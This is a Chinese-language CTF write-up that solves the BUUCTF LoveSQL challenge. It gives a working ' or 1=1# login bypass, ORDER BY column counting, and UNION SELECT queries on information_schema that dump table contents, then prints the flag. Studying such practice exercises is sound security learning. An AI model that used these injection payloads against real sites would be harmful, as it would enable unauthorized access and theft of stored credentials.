# T7 lovesql

> 题目 BUUCTF [极客大挑战 2019]LoveSQL

__0x00 审题__

打开图片，（炫酷）hacker图，之前也有个这样的题直接万能密码做了，没注意是不是同一官方，现在看来这是个连续剧，一个登录页面，盲猜用户名admin，密码直接万能密码

输入：
```
admin
' or 1=1#
```
成功进入，回显为：

```
Login Success!
Hello admin！
Your password is 'c2a1a931c9a47c71c63217a29d372e44'
```

然后呐

__0x01 解题__

> 刚刚开始做MySQL注入的题，感觉应该进行注入点检测,一个[借鉴](https://blog.csdn.net/m0_46201544/article/details/125241467)

```
1. 判断是否有注入点（判断是否未严格校验）

    * 可控参数的改变是否能影响页面的显示效果
    * 输入的 SQL 语句是否能报错（通过数据库的报错，我们能 猜测 数据库的查询语句是如何拼接的）
    * 输入的 SQL 语句能否不报错（其实就是检查我们的语句能否成功闭合）

2. 什么类型的注入
3. 语句是否能被恶意修改
4. 是否能够成功执行
5. 通过注入获取我们需要的数据
```

```
select database();  #查看当前库名;

select table_name from information_schema.tables where table_schema=database()  ;  #查看当前库下的表名

select column_name from information_schema.columns where table_schema=database() and table_name='user';  #查询列名
```

1. 在用户名处检测是否有注点

```
?username=1' order by 1%23&password=123
```

> 一个个试都没报错，直到4

```
?username=1' order by 4%23&password=ads
```
回显：

```
Unknown column '4' in 'order clause'
```

2. 判断三个字段，接下来寻找注点（有经验的大佬都能猜出字段为：id，username，password）
```
?username=1' union select 1,2,3%23&password=123
```

回显:

```
Hello 2！
Your password is '3'
```
> 含义：可以看到2、3有回显，2代表用户名，3为密码

3. 测试表

```msql
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

回显：
```
Hello 2！
Your password is 'geekuser,l0ve1ysq1'
```

> 到此已经找到俩个表，并且感觉东西应该藏在第二个表内

3.查第二个表的字段

```mysql
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
```

回显：

```
Hello 2！
Your password is 'id,username,password'
```

4. 查列中内容

```
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
```

__0x02 答案__

```
flag{9775a8bc-b570-4351-b108-8894597c35ae}
```

__0x03 总结__

之前一直在看代码审计，很少做的就是注入和一句话木马，打算加强一下
